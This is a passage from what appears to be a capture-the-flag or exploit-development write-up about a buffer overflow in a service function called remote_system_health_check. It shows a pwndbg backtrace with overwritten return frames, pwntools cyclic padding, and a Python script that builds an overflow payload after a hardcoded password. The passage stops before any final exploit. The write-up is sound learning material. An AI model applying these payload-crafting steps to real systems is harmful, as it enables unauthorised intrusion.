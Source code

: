 ```bash
──────────────────────────────[ BACKTRACE ]─────────────
 ► f 0           4012dd remote_system_health_check+118
   f 1 4242424242424242
   f 2 4343434343434343
   f 3 4343434343434343
   f 4 4343434343434343
   f 5 4343434343434343
   f 6 4343434343434343
   f 7 4343434343434343

pwndbg>
```



Bumm. Buffer overflow 🎉.   



## The Padding



For this I will use cyclic command from pwntools inside `gdb`:

```bash
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

Modified python script:

```python
#!/usr/bin/python
import socket
import struct
import sys

def main():
    
    # creating payload
    #     
    
    payload=[
        b"sUp3r_S3cr3T_P4s5w0rD\x00",
        b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
    ]
    
    payload=b"".join(payload)
    sys.stdout.buffer.write(payload)

if __name__ == "__main__":
    main()

```
